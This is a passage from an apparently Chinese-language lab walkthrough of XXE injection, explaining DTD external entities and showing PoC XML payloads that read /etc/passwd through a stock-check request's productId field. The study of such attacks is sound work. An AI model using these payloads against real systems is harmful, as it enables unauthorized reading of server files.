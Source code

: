 ------

#### 0x03 XXE漏洞本质

**0x02**介绍了DTD外部文档声明，比如：

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://xxxx.baidu.com" > ]>`

因此就存在构造Poc引发的XXE注入(file协议)：

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

可以简单理解为，"外部文件包含"（双引号啊双引号，加了双引号啊）

------

#### 0x04 经典XXE

检查库存功能，POST的data数据为XML格式

![image-20220525125721547](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525125721547.png)

构造Poc：

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
	<productId>
   	</productId>
    <storeId>
        2
    </storeId>
</stockCheck>
```

显示无效产品ID

![image-20220525130208683](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525130208683.png)

重新构造Poc:

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
	<productId>
1&xxe;/etc/passwd
   	</productId>
    <storeId>
        2
    </storeId>
</stockCheck>
```

![image-20220525130340811](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525130340811.png)
